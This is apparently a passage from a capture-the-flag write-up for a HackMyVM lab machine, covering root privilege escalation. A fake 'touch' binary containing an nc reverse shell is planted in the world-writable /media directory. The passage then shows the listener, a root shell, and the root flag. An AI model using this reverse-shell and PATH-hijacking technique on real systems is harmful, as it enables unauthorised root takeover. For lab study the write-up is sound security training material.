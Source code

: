 `which touch`:
```
/usr/bin/touch ←
```

`ls -ld /media`:
```
drwxrwxrwx 3 root root 4096 ene  4  2023 /media ←
```

`which bash`:
```
/usr/bin/bash
```

`echo "nc -c '/usr/bin/bash' 192.168.56.118 4444" | tee /media/touch`:
```
nc -c '/usr/bin/bash' 192.168.56.118 4444 ←
```

`chmod +x /media/touch`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 4444`:
```
listening on [any] 4444 ... ←
```

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.129] 49430
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) grupos=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 28
4 drwx------  3 root root 4096 ene  4  2023 ./
4 drwxr-xr-x 18 root root 4096 ene  4  2023 ../
0 lrwxrwxrwx  1 root root    9 ene  4  2023 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 abr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 ene  4  2023 .local/
4 -rw-r--r--  1 root root  161 jul  9  2019 .profile
4 -rw-------  1 root root   15 ene  4  2023 root.txt ←
4 -rw-r--r--  1 root root   66 ene  4  2023 .selected_editor
```

`cat ./root.txt`:
```
HMVHAPPYNY2023 ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---

